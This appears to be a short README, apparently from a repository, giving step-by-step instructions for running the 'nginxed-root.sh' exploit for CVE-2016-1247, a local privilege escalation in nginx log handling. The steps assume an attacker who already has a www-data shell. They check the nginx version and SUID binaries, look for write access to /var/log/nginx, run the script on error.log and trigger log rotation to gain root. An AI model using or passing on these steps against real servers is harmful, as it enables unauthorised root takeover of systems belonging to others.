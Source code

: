 # EXAMPLE

# Author of the exploit: https://legalhackers.com/

# REQUIREMENTS

### Having the correct permissions of your user.

#### 1) As www-data or similar user, if you see that the machine is vulnerable to CVE-2016-1247 nginxed-root.sh, we do:

#### 2) dpkg -l | grep nginx (Anyhing newer than 1.6.2 is patched)

#### 3) find / -type f -perm -u=s -lsa 2>/dev/null (SUID bit on sudo required for the vulnerability to work)

#### 4) ls -la /var/log/nginx (If your user has enough permissions on the folder, you can replace the log files with a malicious script via symlink)

#### 5) ./nginxed-root.sh /var/log/nginx/error.log

#### 6) Create another SSH session (Unless there is a cronjob that restarts the nginx server)

#### 7) invoke-rc.d nginx rotate >/dev/null 2>&1

